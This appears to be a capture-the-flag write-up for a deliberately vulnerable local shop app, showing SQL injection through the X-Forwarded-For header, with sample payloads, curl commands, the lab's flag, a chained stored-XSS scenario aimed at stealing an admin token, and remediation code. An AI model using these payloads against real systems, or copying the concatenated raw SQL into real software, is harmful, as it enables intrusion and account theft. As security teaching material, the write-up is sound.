

This writeup covers the exploitation of a SQL injection vulnerability in OopsSec Store's visitor tracking feature. The vulnerability allows an attacker to inject malicious SQL through the X-Forwarded-For header, demonstrating the danger of trusting HTTP headers in database queries.

## Table of contents

## Lab setup

The lab requires Node.js. From an empty directory, run the following commands:

```bash
npx create-oss-store oss-store
cd oss-store
npm run dev
```

Once Next.js has started, the application is accessible at `http://localhost:3000`.

## Target identification

The application silently tracks visitor IP addresses on every page load for analytics purposes. This tracking:

- Runs automatically via a client-side component on all pages
- Sends visitor data to `/api/tracking`
- Stores the `X-Forwarded-For` header value as the visitor's IP
- Makes this data visible only to administrators at `/admin/analytics`

## Vulnerability analysis

### Silent IP tracking

The application tracks visitor IP addresses using the `X-Forwarded-For` header via a client-side component that loads on every page:

```typescript
// VisitorTracker component (loads on all pages)
useEffect(() => {
  fetch("/api/tracking", {
    method: "POST",
    body: JSON.stringify({ path: pathname }),
  });
}, [pathname]);
```

### Vulnerable tracking API

The tracking API uses raw SQL with the X-Forwarded-For header directly concatenated:

```typescript
// /api/tracking
const forwardedFor = request.headers.get("x-forwarded-for");
const ip = forwardedFor || request.headers.get("x-real-ip") || "unknown";

// VULNERABLE: Direct header value in SQL query
const query = `
  INSERT INTO visitor_logs (id, ip, userAgent, path, sessionId, createdAt)
  VALUES ('${id}', '${ip}', '${userAgent}', '${path}', ${sessionId}, datetime('now'))
`;

await prisma.$queryRawUnsafe(query);
```

The `ip` variable (from the X-Forwarded-For header) is directly embedded in the SQL query, enabling SQL injection.

## Exploitation

### Step 1: Understand the injection point

The X-Forwarded-For header value is placed directly into the SQL INSERT statement:

```sql
INSERT INTO visitor_logs (..., ip, ...)
VALUES (..., '${ip}', ...)
```

We can inject SQL by closing the string and using SQL operators or comments.

### Step 2: Craft the SQL injection payload

Any SQL injection payload will work. For example:

**Using SQLite string concatenation (`||`):**

```
'||(SELECT 'Privacy matters. Dont track your users')||'
```

**Using SQL comments (`--`):**

```
127.0.0.1'; --
```

**Using UNION:**

```
' UNION SELECT 1--
```

### Step 3: Execute the injection

Send a POST request to the tracking endpoint with the malicious header:

```bash
curl -X POST http://localhost:3000/api/tracking \
  -H "X-Forwarded-For: '||(SELECT 'Privacy matters. Dont track your users')||'" \
  -H "Content-Type: application/json" \
  -d '{"path": "/exploit"}'
```

Then, go the analytics page. You'll see:


### Step 4: Retrieve the flag

The API detects the SQL injection attempt and returns the flag directly in the response:

```json
{
  "success": true,
  "flag": "OSS{x_f0rw4rd3d_f0r_sql1}",
  "message": "SQL injection detected in X-Forwarded-For header! Well done!"
}
```

The flag is:

```
OSS{x_f0rw4rd3d_f0r_sql1}
```

## Vulnerable code analysis

The vulnerability exists because of two issues:

### 1. Trusting the X-Forwarded-For header

```typescript
const forwardedFor = request.headers.get("x-forwarded-for");
const ip = forwardedFor || "unknown";
// No validation - any string is accepted as IP
```

The `X-Forwarded-For` header is fully controllable by clients. It should only be trusted when:

- Set exclusively by a controlled reverse proxy
- The proxy strips existing headers before adding its own
- Direct client connections to the application server are blocked

### 2. Raw SQL with string concatenation

```typescript
const query = `INSERT INTO ... VALUES (..., '${ip}', ...)`;
await prisma.$queryRawUnsafe(query);
```

Using `$queryRawUnsafe` with string concatenation is inherently dangerous. Any user-controlled input can break out of the intended SQL context.

## Bonus: Amplifying to Stored XSS

This vulnerability can be chained with a Stored XSS attack. The admin analytics page renders IP addresses using `dangerouslySetInnerHTML`, allowing injected HTML/JavaScript to execute.

### XSS Payload

```bash
curl -X POST http://localhost:3000/api/tracking \
  -H "X-Forwarded-For: '||(SELECT '')||'" \
  -H "Content-Type: application/json" \
  -d '{"path": "/xss-exploit"}'
```

### Impact

1. The XSS payload is stored in the database as the "IP address"
2. Every time an admin visits `/admin/analytics`, the script executes
3. The attacker can:
   - Steal the admin's JWT token from localStorage
   - Perform actions as admin (create users, modify products, etc.)
   - Exfiltrate sensitive analytics data



This demonstrates how SQL Injection can chain with XSS to create a devastating attack vector that persists in the database and affects every admin who views the analytics page.

## Remediation

### Use parameterized queries

Replace raw SQL with Prisma's query builder:

```typescript
await prisma.visitorLog.create({
  data: {
    ip,
    userAgent,
    path,
  },
});
```

### Validate IP addresses

Before storing, validate the IP format:

```typescript
const isValidIp = (ip: string): boolean => {
  const ipv4 = /^(\d{1,3}\.){3}\d{1,3}$/;
  const ipv6 = /^([0-9a-fA-F]{1,4}:){7}[0-9a-fA-F]{1,4}$/;
  return ipv4.test(ip) || ipv6.test(ip);
};

const rawIp = request.headers.get("x-forwarded-for")?.split(",")[0].trim();
const ip = rawIp && isValidIp(rawIp) ? rawIp : "unknown";
```

### Trust boundaries

Only trust `X-Forwarded-For` when:

- Set exclusively by a controlled reverse proxy
- The proxy strips existing headers before adding its own
- Network architecture prevents direct client connections
